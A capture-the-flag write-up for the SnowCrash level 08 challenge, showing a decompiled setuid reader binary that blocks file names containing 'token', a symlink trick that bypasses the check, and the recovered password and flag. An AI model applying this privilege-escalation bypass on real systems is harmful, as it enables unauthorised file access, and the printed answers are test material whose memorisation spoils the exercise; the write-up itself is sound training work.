# Level 08

## Initial Reconnaissance
When browsing the files of the home of level08 user, we can see there is binary file called level08 owned by level08 and a file called token owned by flag08.

```bash
ls -Al
```

```
total 28
-r-x------  1 level08 level08  220 Apr  3  2012 .bash_logout
-r-x------  1 level08 level08 3518 Aug 30  2015 .bashrc
-r-x------  1 level08 level08  675 Apr  3  2012 .profile
-rwsr-s---+ 1 flag08  level08 8617 Mar  5  2016 level08
-rw-------  1 flag08  flag08    26 Mar  5  2016 token
```

When executing the binary, it says :

```
level08@SnowCrash:~$ ./level08 
./level08 [file to read]
```
Therefore we try to give it the file token.
```
level08@SnowCrash:~$ ./level08 token
You may not access 'token'
```

We also don't have the read permission on the file token.

We can download the binary on our local machine.

```bash
scp -P 4242 level08@[IP]:level08 .
```

We pass it through a binary analysis tool on : https://dogbolt.org/.

```c
int32_t main(int argc, char** argv, char** envp)
{
    char** envp_1 = envp;
    void* gsbase;
    int32_t eax_2 = *(gsbase + 0x14);
    
    if (argc == 1)
    {
        printf("%s [file to read]\n", *argv);
        exit(1);
        /* no return */
    }
    
    if (strstr(argv[1], "token"))
    {
        printf("You may not access '%s'\n", argv[1]);
        exit(1);
        /* no return */
    }
    
    int32_t fd = open(argv[1], 0);
    
    if (fd == 0xffffffff)
    {
        err(1, "Unable to open %s", argv[1]);
        /* no return */
    }
    
    void buf;
    ssize_t nbytes = read(fd, &buf, 0x400);
    
    if (nbytes == 0xffffffff)
    {
        err(1, "Unable to read fd %d", fd);
        /* no return */
    }
    
    ssize_t result = write(1, &buf, nbytes);
    
    if (eax_2 == *(gsbase + 0x14))
        return result;
    
    __stack_chk_fail();
    /* no return */
}
```

## Vulnerability Found
It looks like the binary only checks the name of the file to read. It doesn't read only if the file contains the string "token".

## Exploitation Steps
We create a symlink to the file token so there isn't 'token' in the name of the file.

```bash
ln -s ~/token /tmp/tok3n
```

```
level08@SnowCrash:~$ ./level08 /tmp/tok3n
quif5eloekouj29ke0vouxean
```

```bash
su flag08
```

Password: quif5eloekouj29ke0vouxean

```bash
getflag
```

```
Check flag.Here is your token : 25749xKZ8L7DkSCwJkT9dyv6f
```

## Additional Notes

